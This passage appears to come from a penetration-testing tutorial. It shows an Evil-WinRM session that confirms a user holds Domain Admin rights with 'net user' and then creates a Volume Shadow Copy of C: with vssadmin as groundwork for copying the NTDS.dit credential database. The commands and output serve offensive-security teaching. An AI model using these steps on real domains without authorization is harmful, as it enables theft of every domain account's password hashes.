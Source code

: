 We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights. We also will want to check what domain privileges we have.

#### Checking user account privileges including domain

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson

User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

#### Creating shadow copy of C:

We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the `C:` drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on `C:` as that is the default location selected at install, but it is possible to change the location. We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down. VSS is used by many different backup and disaster recovery software to perform operations.

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```
